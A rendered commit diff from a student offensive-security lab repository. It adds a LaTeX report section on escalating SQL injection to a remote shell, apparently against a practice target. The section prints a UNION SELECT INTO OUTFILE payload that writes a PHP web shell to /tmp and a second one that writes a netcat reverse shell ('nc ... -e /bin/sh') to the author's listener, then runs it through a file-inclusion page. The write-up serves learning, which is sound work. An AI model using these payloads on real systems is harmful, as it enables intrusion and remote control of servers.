

Before and after one commit to mauriceKalevra/Offsec-lab, a LaTeX paper (Lab6/Lab6-report.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 5 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
FINALY FINISHED

```diff
--- a/Lab6/Lab6-report.tex
+++ b/Lab6/Lab6-report.tex
@@ -41,3 +45,29 @@ or
  \includegraphics[scale=0.5]{sec.png}
 \end{center}
 The key here is union. It is used to combine the result-set of two or more SELECT statements. This can be used to pass our bewished statements.
+\newpage
+\section{Exercise 6.2 - Remote Shell SQL Injections}
+Next we want to go even further and spawn a reverse shell via netcat. This can be achieved by using another sql injection to create a file within the target system. This file can then be executed to connect to our nc server.\\
+The first approach was to use a sql injection that writes a php execution command into a file @/tmp. With another injection i then wanted to pass the connection to my nc server.
+
+\begin{verbatim}
+% or 0 = 0 union select 1, '<?php system($_GET['cmd']); ?>' into outfile '/tmp/exec.php'#
+\end{verbatim}
+This tries to use the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.\\
+But even after lots of reconfiguration this doesnt work, probably due to syntactical errors.
+The next approach was to straight write the connection to a file and execute it via the file inclusion page.
+\begin{verbatim}
+%' or 0=0 union select 1, '<?php system("nc 192.168.193.128 1337 -e/bin/sh"); \
+?>' into outfile '/tmp/pown.php' #
+\end{verbatim}
+When we check /tmp at the victim maschine,, we see the created file.\\
+\includegraphics[scale=0.5]{pown.png}\\
+\vspace{1mm}
+After further research we realize that our sql statement was not correct since it also wrote usernames in the file.\\
+After adjusting the statement we only have the php funtion with our nc connection writen in the file.
+Via the File inclusion page we can now call that file to connecto to our nc server.
+\begin{verbatim}
+
+\end{verbatim}
+\includegraphics[scale=0.5]{nc.png}
+\newpage
```
Also changed, not shown: Lab6/LAB_6_Syrjaelae.pdf (added), Lab6/link.png (added), Lab6/nc.png (added), Lab6/pown.png (added), Lab6/root.png (added), Lab6/Lab6-report.tex (20 more changed lines).
